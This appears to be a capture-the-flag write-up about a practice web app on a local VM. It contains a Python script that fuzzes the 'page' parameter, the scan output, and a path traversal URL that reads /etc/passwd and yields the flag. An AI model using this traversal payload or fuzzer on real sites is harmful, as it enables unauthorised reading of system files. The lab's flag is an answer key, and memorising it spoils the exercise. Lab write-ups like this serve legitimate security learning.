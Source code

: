 # http://192.168.99.100/index.php?page=../../../../../../../etc/passwd

i've been stuck and i did not know how to find the other two exploitable areas of the website,
i decided to get a list of common file names and folders and try to fuzz the website for file names...

```py
#!/usr/bin/env python3

import requests

#base = 'http://192.168.99.100/'
base = 'http://192.168.99.100/index.php?page='

wl = None
with open('wordlist.txt') as fp:
    wl = fp.read().splitlines()
    fp.close()

visited = set()

for w in wl:
    r = requests.get(base + w)
    if r.status_code == 404:
        continue
    h = hash(r.text)
    if h not in visited:
        visited.add(h)
        print(base + w, '\t\t', r.status_code)
```

### and here are the results

```
e1z2r10p4% ./scanner.py 
http://192.168.99.100/index.php?page=!.gitignore 		 200
http://192.168.99.100/index.php?page=%2F../../../ 		 200
http://192.168.99.100/index.php?page=default 		 200
http://192.168.99.100/index.php?page=example.com/%2e%2e 		 200
http://192.168.99.100/index.php?page=feedback 		 200
http://192.168.99.100/index.php?page=footer 		 200
http://192.168.99.100/index.php?page=header 		 200
http://192.168.99.100/index.php?page=icons/../ 		 200
http://192.168.99.100/index.php?page=media 		 200
http://192.168.99.100/index.php?page=member 		 200
http://192.168.99.100/index.php?page=recover 		 200
http://192.168.99.100/index.php?page=signin 		 200
http://192.168.99.100/index.php?page=survey 		 200
http://192.168.99.100/index.php?page=upload 		 200
```



i noticed that for `/index.php?page=bla` there's a javascript alert _**Wtf ?**_
however for `/index.php?page=%2F../../../` the message is _**Nope..**_,
and if i append another `../` the javascript alert changes to _**Almost**_
with another `../` it changes to _**Still nope..**_
at `/index.php?page=../../../../../../../` the page says _**You can DO it !!!  :]**_


after looking at `https://www.owasp.org/index.php/Path_Traversal` i finally figured it out
the url for the flag is `http://192.168.99.100/index.php?page=../../../../../../../etc/passwd`

the page shows a javascript alert with the following message:

`Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0`

